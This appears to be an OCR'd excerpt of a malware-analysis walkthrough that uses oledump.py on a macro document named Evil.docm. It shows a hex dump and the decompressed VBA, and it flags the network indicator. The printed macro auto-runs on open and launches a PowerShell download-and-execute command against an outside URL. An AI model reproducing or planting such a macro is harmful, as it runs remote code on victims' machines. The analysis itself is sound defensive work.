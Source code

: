 ```
00000410: 65 63 6C 61 00 06 49 64  00 9A 08 54 72 75 0C 40  ecla..Id...Tru.@
00000420: 45 78 70 6F 04 73 65 13  1B 54 65 6D 70 6C 00 61  Expo.se..Templ.a
00000430: 74 65 44 65 72 69 76 01  14 23 43 75 73 74 6F 6D  teDeriv..#Custom
00000440: 69 06 7A 84 41 02 30                              i.z.A.0
```
_Note: Now we want to decompress the VBA code._
```
$ oledump.py -s 3 -v Evil.docm 
Attribute VB_Name = "NewMacros"
Sub Auto_Open()
    Dim exec As String
    exec = "powershell.exe ""IEX ((new-object net.webclient).downloadstring('https://orig03.deviantart.net/126f/f/2009/156/8/5/owl_bear_by_benwootten.jpg'))"""
    Shell (exec)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```
_Note: Here we found our network IOC!_
```
$ oledump.py -s 4 -v Evil.docm 
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
```

